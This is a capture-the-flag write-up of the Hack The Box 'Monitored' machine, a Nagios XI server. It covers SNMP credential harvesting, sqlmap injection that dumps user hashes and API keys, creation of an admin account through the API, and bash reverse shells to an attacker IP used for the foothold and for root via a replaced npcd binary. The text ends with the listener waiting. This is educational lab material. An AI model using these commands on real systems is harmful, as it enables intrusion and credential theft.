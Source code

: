 ```yaml
---
title: HTB - Monitored
date: 2024-01-16
categories: [CTF, Fullpwn]
tags: [htb, hackthebox, monitored, nmap, nagiosxi]
img_path: /assets/htb/fullpwn/monitored/
published: true
image:
    path: room_banner.png
---
```


> CONTENT HIDDEN - ACTIVE MACHINE!
{: .prompt-warning}

<!-- ## Overview

TBA

## Info gathering

Let's start with a port-scanning:

```bash
sudo nmap -sS -A -Pn -p- --min-rate 10000 monitored

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)

80/tcp  open  http     Apache httpd 2.4.56
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
|_http-server-header: Apache/2.4.56 (Debian)

389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/http Apache httpd 2.4.56
|_http-server-header: Apache/2.4.56 (Debian)
|_ssl-date: TLS randomness does not represent time
|_http-title: Nagios XI
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK
5667/tcp open  tcpwrapped

Service Info: Hosts: nagios.monitored.htb, 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nmap info:
- SSH open, but we need creds.
- HTTP redirects to HTTPS -> add to `/etc/hosts`
- Find more about LDAP `389`

## Initial foothold

Upon visiting the webserver on our browser we find a Nagios XI interface:

![](home.png){: .normal width="65%"}

We have encountered Nagios XI before on the Try Hack Me's [Nax](https://cspanias.github.io/posts/THM-Nax/) room. Let's remind ourselves [what Nagios XI is](https://cspanias.github.io/posts/THM-Nax/#21-nagios-xi):

> Nagios XI is kind of a **[boosted crontab](https://man7.org/linux/man-pages/man5/crontab.5.html)**: it periodically runs scripts which can be reached from a command line or a GUI. When something goes wrong, it will generate an alert in the form of an email or SMS, which helps developers start working on the issue right away, before it has any negative impact on the business productivity.

![](https://cspanias.github.io/assets/thm/fullpwn/nax/Nagios-Working-nagios-Tutorial-Edureka-3.png)

We can start by performing a recursive dir-busting with `ffuf`. It will search for subdirectories, e.g. `https://nagios.monitored.htb/FUZZ`,  and if any is found, it will then create a new job and perform dir-busting for `https://nagios.monitored.htb/newly-found-directory/FUZZ`:

```bash
$ ffuf -u https://nagios.monitored.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -recursion

<SNIP>
javascript              [Status: 301, Size: 335, Words: 20, Lines: 10, Duration: 28ms]
[INFO] Adding a new job to the queue: https://nagios.monitored.htb/javascript/FUZZ

nagios                  [Status: 401, Size: 468, Words: 42, Lines: 15, Duration: 29ms]
                        [Status: 200, Size: 3245, Words: 786, Lines: 75, Duration: 28ms]
[INFO] Starting queued job on target: https://nagios.monitored.htb/javascript/FUZZ

jquery                  [Status: 301, Size: 342, Words: 20, Lines: 10, Duration: 32ms]
[INFO] Adding a new job to the queue: https://nagios.monitored.htb/javascript/jquery/FUZZ
```

Based on the above output, we can see that `ffuf` discovered 2 new directories: `/javascript` and `/nagios`. It then went on to enumerate the former and found `/javascript/jquery`, but it did not enumerate the latter. This is because it got a [`401` Unauthorized error](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/401) response code, and couldn't proceed without credentials. 

It seems that `/nagios` is some sort of another login portal:

![](nagios_subdir.png){: .normal width="65%"}

Unfortunately, we don't have any credentials at the moment. We can always try searching for default credentials used in Nagios XI:

![](nagios_def_creds.png){: .normal width="65%"}

Unfortunately, that did not work! Next, we can try perform a **Hail Mary** scan using [incursore](https://github.com/wirzka/incursore) and see what we get back:

```bash
# hail mary mode!
$ sudo incursore.sh -H 10.10.11.248 --type All
```

`incursore` produces a ton of files, but it neatly organizes them for us:

```bash
$ tree 10.10.11.248/
10.10.11.248/
├── incursore_10.10.11.248_All.txt
├── nmap
│   ├── CVEs_10.10.11.248.nmap
│   ├── full_TCP_10.10.11.248.nmap
│   ├── Recon_10.10.11.248.nmap
│   ├── Script_TCP_10.10.11.248.nmap
│   ├── UDP_10.10.11.248.nmap
│   ├── UDP_Extra_10.10.11.248.nmap
│   └── Vulns_10.10.11.248.nmap
└── recon
    ├── ffuf_10.10.11.248_443.txt
    ├── ffuf_10.10.11.248_80.txt
    ├── ldapsearch_10.10.11.248.txt
    ├── ldapsearch_DC_10.10.11.248.txt
    ├── nmap_ldap_10.10.11.248.txt
    ├── screenshot_http_10.10.11.248_80.jpeg
    ├── screenshot_https_10.10.11.248_443.jpeg
    ├── snmpcheck_10.10.11.248.txt
    ├── snmpwalk_10.10.11.248.txt
    └── sslscan_10.10.11.248_443.txt

3 directories, 18 files
```

After going through the `incursore_10.10.11.248_All.txt` file, we can note down whatever we think that might be useful:

```bash
<SNIP>

[*] UDP port scan launched

PORT    STATE SERVICE
123/udp open  ntp
161/udp open  snmp

<SNIP>

[+] Starting snmp-check session

snmp-check v1.9 - SNMP enumerator
Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)

[+] Try to connect to 10.10.11.248:161 using SNMPv1 and community 'public'

[*] System information:

  Host IP address               : 10.10.11.248
  Hostname                      : monitored
  Description                   : Linux monitored 5.10.0-27-amd64 #1 SMP Debian 5.10.205-2 (2023-12-31) x86_64
  Contact                       : Me <root@monitored.htb>
  Location                      : Sitting on the Dock of the Bay
  Uptime snmp                   : 00:56:30.21
  Uptime system                 : 00:56:18.35
  System date                   : 2024-1-13 16:14:19.0

<SNIP>
```

We see that there is an NTP service and an SNMP service listening on port `123` and port `161`, respectively. We can also see some system info.

According to [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ntp):

> The **Network Time Protocol (NTP)** is a networking protocol for clock synchronization between computer systems over packet-switched, variable-latency data networks.

Trying the commands listed on the above article, did not get us anywhere. 

Let's see if SNMP has more to offer after reminding ourselves what SNMP is used for: 

> **Simple Network Management Protocol (SNMP)** is a protocol for remotely monitoring and configuring network devices, such as routers, switches, servers, IoT devices, etc. It is used to collect and report data from network devices connected to IP networks ([The Ultimate Guide to SNMP](https://www.auvik.com/franklyit/blog/the-ultimate-guide-to-snmp/)).

[HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp) also has an article for pentesting SNMP, but `incursorone` has already done most of it already. If we keep reading `incursore`'s output, or just the `10.10.11.248/recon/snmpwalk_10.10.11.248.txt`  file, we will find some credentials:

```bash
iso.3.6.1.2.1.25.4.2.1.5.561 = STRING: "-c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB "

<SNIP>

iso.3.6.1.2.1.25.4.2.1.5.1447 = STRING: "-u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB"
iso.3.6.1.2.1.25.4.2.1.5.1448 = STRING: "-c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB"

<SNIP>

```

We can try using those (`svc:XjH7VCehowpR1xZB`) to log into one of the two Nagios login portals we have discovered so far. It seems that they do not work at `https://nagios.monitored.htb/nagiosxi/login.php?redirect=/nagiosxi/index.php%3f&noauth=1`, but they do work at `https://nagios.monitored.htb/nagios` !  

![](nagios_login.png)

After searching around for a while we can't find much, with the exception of the software's version: `4.4.13`. Now that we have the version, we can search for any associated vulnerabilities. There is [CVE-2019-15949](https://nvd.nist.gov/vuln/detail/CVE-2019-15949) which has a metasploit module, but it does not seem to work. There is also an interesting [post](https://outpost24.com/blog/nagios-xi-vulnerabilities/) from Outpost24 which lists a number of Nagios XI vulnerabilities related to privilege escalation.

Since, we don't have many avenues to go further for now, let's also dir-bust the `/nagiosxi` directory:

```bash
$ ffuf -u https://nagios.monitored.htb/nagiosxi/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt  -recursion

<SNIP>

help                    [Status: 301, Size: 338, Words: 20, Lines: 10, Duration: 26ms]
[INFO] Adding a new job to the queue: https://nagios.monitored.htb/nagiosxi/help/FUZZ

tools                   [Status: 301, Size: 339, Words: 20, Lines: 10, Duration: 28ms]
[INFO] Adding a new job to the queue: https://nagios.monitored.htb/nagiosxi/tools/FUZZ

mobile                  [Status: 301, Size: 340, Words: 20, Lines: 10, Duration: 28ms]
[INFO] Adding a new job to the queue: https://nagios.monitored.htb/nagiosxi/mobile/FUZZ

admin                   [Status: 301, Size: 339, Words: 20, Lines: 10, Duration: 28ms]
[INFO] Adding a new job to the queue: https://nagios.monitored.htb/nagiosxi/admin/FUZZ

reports                 [Status: 301, Size: 341, Words: 20, Lines: 10, Duration: 29ms]
[INFO] Adding a new job to the queue: https://nagios.monitored.htb/nagiosxi/reports/FUZZ

account                 [Status: 301, Size: 341, Words: 20, Lines: 10, Duration: 31ms]
[INFO] Adding a new job to the queue: https://nagios.monitored.htb/nagiosxi/account/FUZZ

includes                [Status: 301, Size: 342, Words: 20, Lines: 10, Duration: 29ms]
[INFO] Adding a new job to the queue: https://nagios.monitored.htb/nagiosxi/includes/FUZZ

backend                 [Status: 301, Size: 341, Words: 20, Lines: 10, Duration: 33ms]
[INFO] Adding a new job to the queue: https://nagios.monitored.htb/nagiosxi/backend/FUZZ

db                      [Status: 301, Size: 336, Words: 20, Lines: 10, Duration: 28ms]
[INFO] Adding a new job to the queue: https://nagios.monitored.htb/nagiosxi/db/FUZZ

api                     [Status: 301, Size: 337, Words: 20, Lines: 10, Duration: 32ms]
[INFO] Adding a new job to the queue: https://nagios.monitored.htb/nagiosxi/api/FUZZ

config                  [Status: 301, Size: 340, Words: 20, Lines: 10, Duration: 30ms]
[INFO] Adding a new job to the queue: https://nagios.monitored.htb/nagiosxi/config/FUZZ

views                   [Status: 301, Size: 339, Words: 20, Lines: 10, Duration: 30ms]
[INFO] Adding a new job to the queue: https://nagios.monitored.htb/nagiosxi/views/FUZZ

sounds                  [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 304ms]
terminal                [Status: 200, Size: 5215, Words: 1247, Lines: 124, Duration: 78ms]

<SNIP>
```

It seems that this has a lot of directories, so it is a good idea to adjust our scan by removing the recursion flag and then enumerate just what it seems interesting:

```bash
$ ffuf -u https://nagios.monitored.htb/nagiosxi/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt

mobile                  [Status: 301, Size: 340, Words: 20, Lines: 10, Duration: 31ms]
admin                   [Status: 301, Size: 339, Words: 20, Lines: 10, Duration: 29ms]
reports                 [Status: 301, Size: 341, Words: 20, Lines: 10, Duration: 30ms]
account                 [Status: 301, Size: 341, Words: 20, Lines: 10, Duration: 29ms]
includes                [Status: 301, Size: 342, Words: 20, Lines: 10, Duration: 30ms]
backend                 [Status: 301, Size: 341, Words: 20, Lines: 10, Duration: 29ms]
db                      [Status: 301, Size: 336, Words: 20, Lines: 10, Duration: 33ms]
api                     [Status: 301, Size: 337, Words: 20, Lines: 10, Duration: 32ms]
config                  [Status: 301, Size: 340, Words: 20, Lines: 10, Duration: 43ms]
views                   [Status: 301, Size: 339, Words: 20, Lines: 10, Duration: 31ms]
sounds                  [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 30ms]
terminal                [Status: 200, Size: 5215, Words: 1247, Lines: 124, Duration: 74ms]
```

A lot of directories have been found, including `/admin`, `/api` and `/terminal`, among others. After enumerating all of them, here is what we have:

| Directories                                                  | Subdirectories                                  |
|--------------------------------------------------------------|-------------------------------------------------|
| `/mobile`                                                    | `/static`, `/views`, `/controllers`             |
| `/includes`                                                  | `/css`, `/js`, `/components`, `/lang`, `/fonts` |
| `/backend`                                                   | `/includes`                                     |
| `/db`                                                        | `/adodb`                                        |
| `/api`                                                       | `/includes`, `/v1`                              |
| `/config`                                                    | `/deployment`                                   |
| `/terminal`                                                  | `/secure`, `/plain`                             |
| `/admin`, `/reports`, `/account`, `/db`, `/views`, `/sounds` | None                                            |

From those, we can further explore:
- `/terminal` because it is a terminal after all!
- `/api` because it represents the intended way for developers and other apps to communicate with the application.

The `/terminal` directory requires credentials, and the ones we currently have do not work:

![](terminal_login.png){: .normal width="65%"}

Next, we can recursively scan with the `/api` directory. It turns out that `/api/includes` does not have other subdirectories, but when it starts scanning the `/api/v1` subdirectory it returns the following:

```bash
$ ffuf -u https://nagios.monitored.htb/nagiosxi/api/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -recursion

<SNIP>

[INFO] Starting queued job on target: https://nagios.monitored.htb/nagiosxi/api/v1/FUZZ

full                    [Status: 200, Size: 32, Words: 4, Lines: 2, Duration: 437ms]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 32, Words: 4, Lines: 2, Duration: 451ms]
serial                  [Status: 200, Size: 32, Words: 4, Lines: 2, Duration: 509ms]
spacer                  [Status: 200, Size: 32, Words: 4, Lines: 

<SNIP>
```

We need to filter out `ffuf`'s output based on the HTTP response size, which in this case is `32`:

```bash
$ ffuf -u https://nagios.monitored.htb/nagiosxi/api/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -recursion -fs 32

license                 [Status: 200, Size: 34, Words: 3, Lines: 2, Duration: 422ms]
%20                     [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 27ms]
video games             [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 40ms]
authenticate            [Status: 200, Size: 53, Words: 7, Lines: 2, Duration: 819ms]
4%20Color%2099%20IT2    [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 238ms]
long distance           [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 27ms]

<SNIP>
```

There are lot sub-directories returned with the HTTP [`403 Forbidden` response status code](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/403). Interestingly enough, there are two subdirectories with the HTTP [`200 OK` response status code](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/200): `/license` and `/authenticate`. We can try to see how these requests look like using Burp. 

We get a "*Unknown API*" error message upon reaching `/license`:

![](license_dir.png)

When sending a `GET` request to `/authenticate`, we get the following:

![](v1_auth_error.png)

Changing the request method from `GET` to `POST`:

![](post_v1_auth_error.png)

After trying to pass our current creds (`svc:XjH7VCehowpR1xZB`) as plain parameters or in JSON format, nothing worked. To find out how the login request works, we can try to login to `/nagiosxi/login.php` with our non-working credentials, capture the request, and then inspect it:

![](login_request_params.png)

We can now keep the request as it is, but send it to `/api/v1/authenticate`:

![](auth_token.png)

We get an authentication token back: `"auth_token":"1c57b07be29194d09f34d35587f84fe716c74e1f"`. Upon searching what we can do with this, we find the [API documentation](https://www.nagios.org/ncpa/help/2.0/api.html) which includes the following token usage: `https://localhost:5693/api?token=mytoken`. Let's try that:

![](token_error.png)

After searching some more about token authentication, we find a post titled as ["*Help with insecure login / backend ticket authentication*"](https://support.nagios.com/forum/viewtopic.php?t=58783&sid=d7eb283ff38882a13a1d5efa18649ac7) which used the `/index.php` directory to pass the credentials instead of `/api/v1/authenticate`. 

Let's see where this does for us:

![](token_redirection.png)

![](token_login.png)

That actually worked, we managed to use the token to authenticate! 

![](token_login_browser.png)

We found this [post](https://outpost24.com/blog/nagios-xi-vulnerabilities/) before which mentions 3 SQLi and one XSS privilege escalation attacks. We can try the first one, [CVE-2023-40931](https://nvd.nist.gov/vuln/detail/CVE-2023-40931) using `sqlmap`:

```bash
# enumerate databases
$ sqlmap --url="https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3" --method=POST --cookie="nagiosxi=hl3av7bhs2mrk4kc6h49pj13qc" -p id --drop-set-cookie --risk=3 --level=5 --dbs

<SNIP>

[15:57:03] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.56
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[15:57:03] [INFO] fetching database names
[15:57:03] [INFO] resumed: 'information_schema'
[15:57:03] [INFO] resumed: 'nagiosxi'
available databases [2]:
[*] information_schema
[*] nagiosxi

<SNIP>
```

We got some information back:
- The DMBS used is MySQL.
- We have two databases: `nagiosxi` and `information_schema`.

The [vulnerability description](https://outpost24.com/blog/nagios-xi-vulnerabilities/) mentions that there is a `xi_users` table; let's see if this exists:

```bash
# enumerate tables
$ sqlmap --url="https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3" --method=POST --cookie="nagiosxi=hl3av7bhs2mrk4kc6h49pj13qc" -p id --drop-set-cookie --risk=3 --level=5 --dbms=MySQL -D nagiosxi --tables

<SNIP>

Database: nagiosxi
[22 tables]
+-----------------------------+
| xi_auditlog                 |
| xi_auth_tokens              |
| xi_banner_messages          |
| xi_cmp_ccm_backups          |
| xi_cmp_favorites            |
| xi_cmp_nagiosbpi_backups    |
| xi_cmp_scheduledreports_log |
| xi_cmp_trapdata             |
| xi_cmp_trapdata_log         |
| xi_commands                 |
| xi_deploy_agents            |
| xi_deploy_jobs              |
| xi_eventqueue               |
| xi_events                   |
| xi_link_users_messages      |
| xi_meta                     |
| xi_mibs                     |
| xi_options                  |
| xi_sessions                 |
| xi_sysstat                  |
| xi_usermeta                 |
| xi_users                    |
+-----------------------------+

<SNIP>
```

The table `xi_users` exists indeed! Let's see what it contains:

```bash
# enumerate xi_users table
$ sqlmap --url="https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3" --method=POST --cookie="nagiosxi=hl3av7bhs2mrk4kc6h49pj13qc" -p id --drop-set-cookie --risk=3 --level=5 --dbms=MySQL -D nagiosxi -T xi_users --dump

<SNIP>

Database: nagiosxi
Table: xi_users
[2 entries]
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
| user_id | email               | name                 | api_key                                                          | enabled | password                                                     | username    | created_by | last_login | api_enabled | last_edited | created_time | last_attempt | backend_ticket                                                   | last_edited_by | login_attempts | last_password_change |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
| 1       | admin@monitored.htb | Nagios Administrator | IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL | 1       | $2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C | nagiosadmin | 0          | 1701931372 | 1           | 1701427555  | 0            | 0            | IoAaeXNLvtDkH5PaGqV2XZ3vMZJLMDR0                                 | 5              | 0              | 1701427555           |
| 2       | svc@monitored.htb   | svc                  | 2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK | 0       | $2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgAOUHSbK | svc
| 1          | 1699724476 | 1           | 1699728200  | 1699634403   | 1705417476   | 6oWBPbarHY4vejimmu3K8tpZBNrdHpDgdUEs5P2PFZYpXSuIdrRMYgk66A0cjNjq | 1              | 5              | 1699697433           |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+

<SNIP>
```
The `xi_users` table contains the hashed password (`$2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C`) and the API key (`IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL`) of the `nagiosadmin` account!

After searching how the API key is used on Nagios XI, we find [this](https://assets.nagios.com/downloads/nagiosxi/docs/Automated_Host_Management.pdf):

> _An example of a CURL command used to access the API is as follows:_
>
> `curl -XGET "http://10.25.5.2/nagiosxi/api/v1/system/status?apikey=5goacg8s&pretty=1"`

After some more searching, we find out that we can [add a user](https://support.nagios.com/forum/viewtopic.php?f=16&t=42923) via the Backbend API:

> _You can use the new REST API to add users:_ 
>
> `curl -XPOST "http://x.x.x.x/nagiosxi/api/v1/system/user?apikey=LTltbjobR0X3V5ViDIitYaI8hjsjoFBaOcWYukamF7oAsD8lhJRvSPWq8I3PjTf7&pretty=1" -d "username=jmcdouglas&password=test&name=Jordan%20McDouglas&email=jmcdouglas@localhost"`

That's interesting, but we need a bit more than that. We already have a user, but we need to create a privileged user, not just any user. There is a [Metasploit module](https://www.exploit-db.com/exploits/44969) that seems to automate this whole process, including an interesting function:

```bash
def try_add_admin(key, username, passwd)
    vprint_status "STEP 3: trying to add admin user with key #{key}"
    res = send_request_cgi({
      'uri'=> "/nagiosxi/api/v1/system/user",
      'method' => 'POST',
      'ctype' => 'application/x-www-form-urlencoded',
      'vars_get' => {
        'apikey' => key,
        'pretty' => 1
      },
      'vars_post' =>{
        'username'   => username,
        'password'   => passwd,
        'name'       => rand_text_alpha(rand(5) + 5),
        'email'      =>"#{username}@localhost",
        'auth_level' =>'admin',
        'force_pw_change' => 0
      }
    })
```

We can now try to create a new user using the parameters we have found before plus the `auth_level=admin`:

```bash
curl -s -XPOST "http://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=xhi4m&password=password&name=xhi4m&email=xhi4m@mail.com&auth_level=admin"
{
    "success": "User account xhi4m was added successfully!",
    "user_id": 6
}
```

We successfully created the user `xhi4m` with `admin` privileges! Let's login:

![](login_xhi4m.png)

Now that we have elevated privileges, we can search if we can leverage any kind of [SSTI vulnerability](https://portswigger.net/web-security/server-side-template-injection). After reading a lot of documentation, we managed to find a detailed kind of how Nagios XI plugins work: [Managing plugins in Nagios XI](https://assets.nagios.com/downloads/nagiosxi/docs/Managing-Plugins-in-Nagios-XI.pdf). According to the documentation, we can execute commands by using plugins. The process is as follows:

1. Upload the a reveshe shell script as a plugin.
2. Create a command which will execute the plugin.
3. Create a service to run the command.

We can create a reverse shell script locally and then upload it as a plugin to Nagios XI:

```bash
$ cat check_command
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.11/1337 0>&1'
```

If we did everything according to the documentation, and we then execute the check command, we should be able to catch our reverse shell:

```bash
$ sudo nc -lvnp 1337
[sudo] password for kali:
listening on [any] 1337 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.11.248] 47560
bash: cannot set terminal process group (2841): Inappropriate ioctl for device
bash: no job control in this shell
nagios@monitored:~$ cat ~/user.txt
<SNIP>
```

## Privilege escalation

Let's first stabilize our shell and then check if our user has any elevated privileges:

```bash
nagios@monitored:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
nagios@monitored:/tmp$ sudo -l
sudo -l
Matching Defaults entries for nagios on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
nagios@monitored:/tmp$
```

That's interesting: a lot of scripts and services that `nagios` can run as `root`! Next, let's transfer and run [`linpeas.sh`](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to the target:

```bash
# start a Python3 HTTP server from where the linpeas.sh script is located
$ python3 -m http.server 8888
```

```bash
# download the linpeas script to the target
nagios@monitored:~$ wget http://10.10.14.11:8888/linpeas.sh
wget http://10.10.14.11:8888/linpeas.sh
--2024-01-17 02:12:44--  http://10.10.14.11:8888/linpeas.sh
Connecting to 10.10.14.11:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 847920 (828K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 828.05K  2.16MB/s    in 0.4s

2024-01-17 02:12:45 (2.16 MB/s) - ‘linpeas.sh’ saved [847920/847920]
# check file's permissions
nagios@monitored:~$ ls -l
ls -l
total 840
-rw-r--r-- 1 nagios nagios    131 Jan 17 01:24 cookie.txt
-rw-r--r-- 1 nagios nagios 847920 Dec 30 23:27 linpeas.sh
-rw-r----- 1 root   nagios     33 Jan 17 01:19 user.txt
# give executable permissions to the file
nagios@monitored:~$ chmod +x linpeas.sh
chmod +x linpeas.sh
# check file's permissions
nagios@monitored:~$ ls -l
ls -l
total 840
-rw-r--r-- 1 nagios nagios    131 Jan 17 01:24 cookie.txt
# execute the file
nagios@monitored:~$ ./linpeas.sh
./linpeas.sh

<SNIP>

╔══════════╣ Analyzing .service files
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#services
/etc/systemd/system/multi-user.target.wants/mariadb.service could be executing some relative path
/etc/systemd/system/multi-user.target.wants/nagios.service is calling this writable executable: /usr/local/nagios/bin/nagios
/etc/systemd/system/multi-user.target.wants/nagios.service is calling this writable executable: /usr/local/nagios/bin/nagios
/etc/systemd/system/multi-user.target.wants/nagios.service is calling this writable executable: /usr/local/nagios/bin/nagios
/etc/systemd/system/multi-user.target.wants/npcd.service is calling this writable executable: /usr/local/nagios/bin/npcd
/etc/systemd/system/npcd.service is calling this writable executable: /usr/local/nagios/bin/npcd

<SNIP>
```

It seems that we have some executables that we can write to, such as `/usr/local/nagios/bin/npcd` that they were also present in our `sudo -l` list:

```bash
(root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
```

We can also see that the `manage_services.sh` script is written for starting, restarting, and stopping services, including `npcd`:

```bash
nagios@monitored:~$ cat /usr/local/nagiosxi/scripts/manage_services.sh
cat /usr/local/nagiosxi/scripts/manage_services.sh
#!/bin/bash
#
# Manage Services (start/stop/restart)
# Copyright (c) 2015-2020 Nagios Enterprises, LLC. All rights reserved.
#
# =====================
# Built to allow start/stop/restart of services using the proper method based on
# the actual version of operating system.
#
# Examples:
# ./manage_services.sh start httpd
# ./manage_services.sh restart mysqld
# ./manage_services.sh checkconfig nagios
#

BASEDIR=$(dirname $(readlink -f $0))

# Import xi-sys.cfg config vars
. $BASEDIR/../etc/xi-sys.cfg

# Things you can do
first=("start" "stop" "restart" "status" "reload" "checkconfig" "enable" "disable")
second=("postgresql" "httpd" "mysqld" "nagios" "ndo2db" "npcd" "snmptt" "ntpd" "crond" "shellinaboxd" "snmptrapd" "php-fpm")

<SNIP>
```

Based on this info, we could:
1. Replace the `/usr/local/nagios/bin/npcd` executable, since we have write access with a reverse shell bash script.
2. Use the `manage_services.sh` script to restart the service, so the replaced executable can be run.

Since the latter is run as `root`, we should receive a `root` shell back. Let's start by creating a reverse shell script and transfer it to the target:

```bash
# create the reverse shell script
$ cat npcd
#!/bin/bash
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.11/9999 0>&1'
# launch a Python3 HTTP server
python3 -m http.server 8888
```

Let's set up our listener before moving forward:

```bash
$ nc -lvnp 9999
listening on [any] 9999 ...
```

Next, let's download the script from the target and restart the service:

```bash
nagios@monitored:~$ cd /usr/local/nagios/bin/
cd /usr/local/nagios/bin/
nagios@monitored:/usr/local/nagios/bin$ ls
ls
nagios      ndo.so          npcd.bk    npcd.save  nrpe-uninstall
nagiostats  ndo-startup-hash.sh  npcdmod.o  nrpe       nsca
nagios@monitored:/usr/local/nagios/bin$ wget http://10.10.14.11:8888/npcd
wget http://10.10.14.11:8888/npcd
--2024-01-17 04:26:27--  http://10.10.14.11:8888/npcd
Connecting to 10.10.14.11:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 69 [application/octet-stream]
Saving to: ‘npcd’

npcd                100%[===================>]      69  --.-KB/s    in 0s

2024-01-17 04:26:27 (8.84 MB/s) - ‘npcd’ saved [69/69]
# give executable permissions to the file
nagios@monitored:/usr/local/nagios/bin$ chmod +x npcd
chmod +x npcd
# check permissions
nagios@monitored:/usr/local/nagios/bin$ ls -l npcd
ls -l npcd
-rwxr-xr-x 1 nagios nagios 69 Jan 17 04:23 npcd
# restart the service
nagios@monitored:/usr/local/nagios/bin$ sudo /usr/local/nagiosxi/scripts/manage_services.sh restart npcd
<al/nagiosxi/scripts/manage_services.sh restart npcd
```

Let's check our listener:

```bash
$ nc -lvnp 9999
listening on [any] 9999 ...
